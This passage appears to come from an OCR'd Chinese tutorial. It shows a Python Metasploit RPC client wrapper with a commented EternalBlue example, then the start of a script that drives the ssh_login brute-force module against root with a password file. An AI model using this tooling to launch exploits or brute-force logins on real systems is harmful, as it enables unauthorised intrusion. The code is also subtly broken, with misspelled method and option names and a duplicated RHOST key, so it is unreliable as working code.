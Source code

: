 ```python
        """
        读取meterpreter信息
        :param ses_id:
        :return:
        """
        str(ses_id)
        res = self.send_command(["session.meterperter_read",self.token,ses_id])
        return res

    def run_module(self,_type,name,HOST,PORT,payload=False):
        """
        执行模块
        :param _type:
        :param name:
        :param HOST:
        :param PORT:
        :param payload:
        :return:
        """
        if payload != False:
            d = ["module.execute",self.token,_type,name,{"LHOST":HOST,"LPOST":PORT}]
        else:
            d = ["module.execute",self.token,_type,name,{"RHOST":HOST,"RHOST":PORT}]
        res = self.send_command(d)
        return res


# if __name__ == "__main__":
#     auth = Client("127.0.0.1","msf","yFdkc6fB")
#     print(auth.get_version())
#     print(auth.list_consoles())
#     print(auth.create_console())
#     print(auth.read_console(1))
#     print(auth.write_console(1,"ls"))
#     print(auth.destroy_console(1))
#     print(auth.list_sessions())
#     print(auth.run_module("exploit","ms17_010_eternalblue","1.1.1.1","1"))

```

使用这个库去调用攻击模块：

```python
# _*_ encoding:utf-8 _*_
# __author__ = "dr0op"

from pymsfrpc import msfrpc
import time

ip = "10.10.11.180"
port = "55553"
user = "msf"
passwd = "msf"
c = msfrpc.Client(ip,port,user,passwd)

console_id = c.create_console().get(b'id')
cmd = """
         use auxiliary/scanner/ssh/ssh_login

         set RHOSTS 127.0.0.1
        
         set USERNAME root
         
         set PASS_FILE /tmp/pass.txt
```